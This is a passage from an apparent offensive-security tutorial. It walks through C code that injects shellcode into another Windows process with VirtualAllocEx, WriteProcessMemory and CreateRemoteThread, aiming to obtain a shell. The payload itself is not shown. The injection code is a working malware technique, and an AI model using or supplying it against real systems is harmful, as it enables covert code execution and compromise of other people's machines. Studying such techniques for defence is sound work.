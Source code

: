 ## 3. Memory allocation for our shellcode

```c
    LPVOID lpShellcode = VirtualAllocEx(
        hProc,
        0,
        sizeof shellcode,
        (MEM_COMMIT | MEM_RESERVE),
        PAGE_EXECUTE_READWRITE // Our RWX permissions
    );
```
We specify our handle *hProc* defined at the very start of our program, with a memory size of our shellcode.  
Because we want read, write and execute permission we will use the **PAGE_EXECUTE_READWRITE** directive.  
**LPVOID** is simply a windows pointer to any type (https://learn.microsoft.com/fr-fr/windows/win32/winprog/windows-data-types). 

## 4. Writing the shellcode to the process memory 

```c
    WriteProcessMemory(
        hProc,
        lpShellcode,
        shellcode,
        sizeof shellcode,
        NULL
);
```
Not much to say here, the starting address will be the one of our shellcode (using a pointer), with again a size corresponding to the same shellcode.  
**lpNumberOfBytesWritten** is set to NULL because we don't need any additional pointer to write received data to (since we know everything will be written).

## 5. Remote thread creation 

```c
    HANDLE hRemoteThread = CreateRemoteThread(
        hProc,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)lpShellcode, // This defines the start of our shellcode
        NULL,
        0, // 0 = will run directly after creation
        NULL
);

// thanks jordge for this <3

    WaitForSingleObject(hRemoteThread, INFINITE);
    return 0;
```
As stated above, **LPTHREAD_START_ROUTINE** will allow us to define the start of our shellcode.  
Here, **dwCreationFlags** set to 0 indicates that our thread will be run directly after creation, granting us with our future beautiful shell. 
